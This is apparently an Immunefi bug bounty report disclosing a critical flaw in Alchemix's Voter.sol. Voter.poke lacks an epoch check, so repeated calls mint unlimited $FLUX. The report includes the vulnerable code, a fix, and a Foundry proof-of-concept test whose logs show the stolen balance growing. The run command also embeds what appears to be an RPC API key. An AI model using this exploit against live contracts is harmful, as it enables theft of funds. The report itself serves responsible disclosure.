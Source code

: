 
# `Voter.poke` does not check `lastVoted` resulting in infinite replication of $FLUX

Submitted on Tue May 14 2024 13:38:20 GMT-0400 (Atlantic Standard Time) by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31196

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro

In AlchemixDAO, each $veToken can vote once per epoch, and users can receive $FLUX as a reward after voting. However, the `Voter.poke` interface allows users to easily repeat previous votes without check whether the $veToken has already voted in the current epoch. As a result, users can call the poke interface infinitely to receive $FLUX repeatedly.

## Vulnerability Details

Please see the following code. The `Voter.vote` interface uses the `onlyNewEpoch` modifier to check whether $veToken has voted in the current epoch.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L228-L233
    function vote(
        uint256 _tokenId,
        address[] calldata _poolVote,
        uint256[] calldata _weights,
        uint256 _boost
    ) external onlyNewEpoch(_tokenId) {
```

However, the `Voter.poke` interface, which also has the voting function, does not check `lastVoted`, causing users to call the interface repeatedly.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-L212
    function poke(uint256 _tokenId) public {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```

**Suggested fix**

Check the `lastVoted` of the token.

```diff
-   function poke(uint256 _tokenId) public {
+   function poke(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```

## Impact Details

Users can infinitely copy $FLUX causing Alchemix token economics to collapse.

## References

None
        
## Proof of concept
## Proof of Concept

The PoC patch

```solidity
diff --git a/src/test/Voting.t.sol b/src/test/Voting.t.sol
index 3f1cc5a..c71a697 100644
--- a/src/test/Voting.t.sol
+++ b/src/test/Voting.t.sol
@@ -1562,4 +1562,28 @@ contract VotingTest is BaseTest {
         hevm.expectRevert(abi.encodePacked("invalid pools"));
         voter.vote(tokenId, pools2, weights3, 0);
     }
+
+    function testYttriumzzPocTemp() public {
+        hevm.startPrank(admin);
+
+        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
+
+        console.log(">>>>> before steal");
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        console.log(">>>>> steal 100 times");
+        for (uint256 i = 0; i < 100; i++) { voter.poke(tokenId); }
+        flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        console.log(">>>>> steal 100 times");
+        for (uint256 i = 0; i < 100; i++) { voter.poke(tokenId); }
+        flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        hevm.stopPrank();
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] testYttriumzzPocTemp() (gas: 4897718)
Logs:
  >>>>> before steal
  >> flux.balanceOf(admin): 0
  
  >>>>> steal 100 times
  >> flux.balanceOf(admin): 99725916412156217700
  
  >>>>> steal 100 times
  >> flux.balanceOf(admin): 199451832824312435400
  

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 61.62ms (46.36ms CPU time)

Ran 1 test suite in 1.68s (61.62ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

